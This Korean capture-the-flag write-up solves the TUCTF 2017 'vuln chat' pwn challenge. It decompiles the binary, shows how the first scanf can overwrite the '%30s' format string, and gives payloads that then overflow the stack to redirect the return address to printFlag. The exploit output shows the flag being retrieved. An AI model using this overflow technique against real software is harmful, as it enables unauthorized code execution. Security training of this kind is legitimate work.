# vuln chat
50 point  
  
One of our informants goes by the handle djinn. He found some information while working undercover inside an organized crime ring. Although we've had trouble retrieving this information from him. He left us this chat client to talk with him. Let's see if he trusts you...  
  
nc vulnchat.tuctf.com 4141  
  
[vuln-chat](https://github.com/j3rrry/CTF/raw/master/2017/TU/Pwn/vuln%20chat/vuln-chat) - md5: 5d081990e899864c9dc85b1cf255af6e  

-------

일단 실행시켜보면
```
# ./vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: a
Welcome a!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
a: b
djinn: Sorry. That's not good enough
```
`username`을 받고 `trust` 를 받는다는 것을 알수가 있었고  
바로 바이너리 분석에 들어갔습니다.  
```
[0x08048470]> afl~printFlag
0x0804856b    1 31           sym.printFlag
```
```C
int printFlag()
{
  system("/bin/cat ./flag.txt");
  return puts("Use it wisely");
}
```
심볼 strip 되있지는 않아서 바로 printFlag() 함수를 찾을 수 있습니다.  
bof 문제로 RET printFlag() 덮어주면 됩니다.  

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [sp+3h] [bp-2Dh]@1
  char v5; // [sp+17h] [bp-19h]@1
  int v6; // [sp+2Bh] [bp-5h]@1
  char v7; // [sp+2Fh] [bp-1h]@1

  setvbuf(stdout, 0, 2, 0x14u);
  puts("----------- Welcome to vuln-chat -------------");
  printf("Enter your username: ");
  v6 = 0x73303325;					// "%30s"
  v7 = 0;
  __isoc99_scanf(&v6, &v5);
  printf("Welcome %s!\n", &v5);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: I have the information. But how do I know I can trust you?");
  printf("%s: ", &v5);
  __isoc99_scanf(&v6, &v4);
  puts("djinn: Sorry. That's not good enough");
  fflush(stdout);
  return 0;
}
```
처음 scanf() 는 길이가 "%30s" 로 정해져 있습니다.  
`__isoc99_scanf(&v6, &v5);`  
`v5`로부터 길이 30은 0x19-30=-5 `ebp+5` 까지 덮을 수 있으며  
`v6`, `v7`, `sfp`, `ret`의 1바이트에 영향을 줄 수가 있습니다.  
중요한 것은 `v6` 가 "%30s" 문자열 형태로 길이제한에 대한 정보를 갖고 있으며 변조가 가능하다는 것입니다.  
`v5`부터 `v6`까지의 거리는 0x19-0x5=20  
`payload = "1" * 20 + "%99s"`  
  
두 번째 scanf() 는 이제 길이 제한이 풀린 것이나 다름없습니다.  
`__isoc99_scanf(&v6, &v4);`  
`v4` 부터 RET 까지의 거리 : 0x2D+4  
0x2D+4+4=53  
`payload2 = "1" * (0x2D+4) + p32(printFlag)`  

```
# python exploit.py
[+] Opening connection to vulnchat.tuctf.com on port 4141: Done
[*] Switching to interactive mode
djinn: Sorry. That's not good enough
TUCTF{574ck_5m45h1n6_l1k3_4_pr0}
Use it wisely
[*] Got EOF while reading in interactive
$
[*] Closed connection to vulnchat.tuctf.com port 4141
```
